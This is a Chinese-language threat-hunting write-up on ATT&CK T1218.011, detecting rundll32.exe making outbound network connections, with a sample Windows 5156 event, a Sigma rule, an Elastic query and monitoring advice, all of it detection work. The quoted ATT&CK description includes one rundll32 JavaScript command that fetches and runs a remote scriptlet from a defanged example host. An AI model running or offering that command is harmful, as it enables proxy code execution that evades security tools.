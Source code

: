 # T1218-011-Win-通过Rundll32的异常网络链接

## 来自ATT&CK的描述

Rundll32.exe程序可以调用来执行任意二进制文件。攻击者可能会利用此功能来代理执行代码，从而避免触发那些可能不会监控rundll32.exe进程执行的安全工具，因为正常操作中使用rundll32.exe的Windows会有白名单或误报。

Rundll32.exe可用于通过未记录的shell32.dll函数Control_RunDLL和 Control_RunDLLAsUser来执行控制面板项目文件（.cpl）。双击.cpl文件也会触发rundll32.exe执行。

Rundll32也可用于执行JavaScript等脚本。可以使用类似于下面的语法来完成：rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")" 。这种方法已被恶意软件如Poweliks所使用。

## 测试案例

Rundll32.exe是指“执行32位的DLL文件”。它的作用是执行DLL文件中的内部函数,功能就是以命令行的方式调用动态链接程序库。

说明：Rundll32.exe所在路径已被系统添加PATH环境变量中，因此，Wmic命令可识别，需注意x86，x64位的Rundll32调用。

windows 2003默认位置：

```bash
C:\Windows\System32\rundll32.exe
C:\Windows\SysWOW64\rundll32.exe
```

win7默认位置：

```bash
C:\Windows\System32\rundll32.exe
C:\Windows\SysWOW64\rundll32.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

Windows 安全日志（需自行配置）

## 测试复现

识别rundll32.exe进行出站网络连接的异常行为。这表明可能存在攻击活动，并可能认识恶意DLL。

## 测试留痕

可参考：[T1218-011-win-基于白名单Rundll32.exe执行payload](https://github.com/12306Bro/Threathunting-book/blob/master/%E6%89%A7%E8%A1%8C/T1218-011-win-%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Rundll32.exe%E6%89%A7%E8%A1%8Cpayload.md)

Examples of 5156

```yml
The Windows Filtering Platform has allowed a connection.

Application Information:

  Process ID: 1752
  Application Name: \device\harddiskvolume1\windows\system32\dns.exe

Network Information:

  Direction: Inbound
  Source Address: 10.45.45.103
  Source Port: 53
  Destination Address: 10.45.45.103
  Destination Port: 50146
  Protocol: 17

Filter Information:

  Filter Run-Time ID: 5
  Layer Name: Receive/Accept
  Layer Run-Time ID: 44
```

## 检测规则/思路

### sigma

```yml
title: 检测通过Rundll32的异常网络链接行为
description: 通过windows日志来检测通过Rundll32的异常网络链接行为
status: experimental
references:
    - https://www.elastic.co/guide/en/siem/guide/current/unusual-network-connection-via-rundll32.html
tags:
    - attack.defense_evasion
    - attack.execution
    - attack.T1085
    - attack.TA0002
date: 2020/12/2
logsource:
    category: process_creation
    product: windows
detection:
    selection1:
        EventID: 5156
        Process.name: 'rundll32.exe' #Application Name
    selection2:
        Destination Address:
                        - 10.0.0.0/8
                        - 172.16.0.0/12 
                        - 192.168.0.0/16
    condition: selection1 and not selection2
level: low
```

### Elastic rule query

```yml
process.name:rundll32.exe and event.action:"Network connection
detected (rule: NetworkConnect)" and not destination.ip:(10.0.0.0/8 or
172.16.0.0/12 or 192.168.0.0/16 or 127.0.0.0/8)
```

### 建议

通过进程监控来检测和分析rundll32.exe的执行和参数。比较rundll32.exe的近期调用与历史已知合法参数及已加载动态链接库来确定是否有异常和潜在的攻击活动。在rundll32.exe调用之前和之后使用的命令参数也可用于确定正在加载的动态链接库的来源和目的。

## 参考推荐

MITRE-ATT&CK-T1218-011

<https://attack.mitre.org/techniques/T1218/011/>

通过Rundll32的异常网络链接

<https://www.elastic.co/guide/en/siem/guide/current/unusual-network-connection-via-rundll32.html>

